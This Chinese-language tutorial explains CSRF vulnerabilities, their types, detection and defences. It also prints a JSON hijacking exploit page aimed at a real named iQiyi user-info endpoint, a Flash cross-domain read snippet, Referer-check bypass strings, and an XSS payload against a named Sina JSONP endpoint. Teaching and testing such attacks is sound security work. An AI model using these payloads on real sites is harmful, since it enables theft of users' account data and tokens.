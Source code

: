 
## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScript 自动提交表单，很容易造成蠕虫攻击，如下所示：  

![csrfch](../pictures/csrfch.png)  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）  
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；    
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；    
此时只能通过验证码来防范csrf 了。    

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```
**注意**：
1. 从页面`document.referer` 获取的是当前页面的上一跳，而发起http 请求带的referer头 是指的当前发起请求时所在的页面
2. 从浏览器页面发起的请求，自动带上referer和origin等头部（默认值），但如果抓包拦截是可以修改的；直接从服务器后台发起的请求，更是可以任意添加头部和值，且返回内容直接给到服务器后台，故也不存在浏览器的跨域策略限制等。

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
